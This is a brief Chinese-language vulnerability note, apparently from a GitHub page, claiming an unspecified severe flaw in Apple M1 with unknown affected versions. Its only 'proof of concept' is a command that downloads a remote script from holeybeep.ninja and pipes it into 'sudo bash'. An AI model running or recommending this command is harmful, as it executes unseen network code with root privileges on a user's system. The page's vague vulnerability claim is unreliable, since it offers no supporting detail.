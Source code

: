 <languages />

漏洞簡介
--------

在 Apple M1 中發現了一個被歸類為嚴重的漏洞（受影響的版本未知）。

POC
---

    curl https://holeybeep.ninja/am_i_vulnerable.sh | sudo bash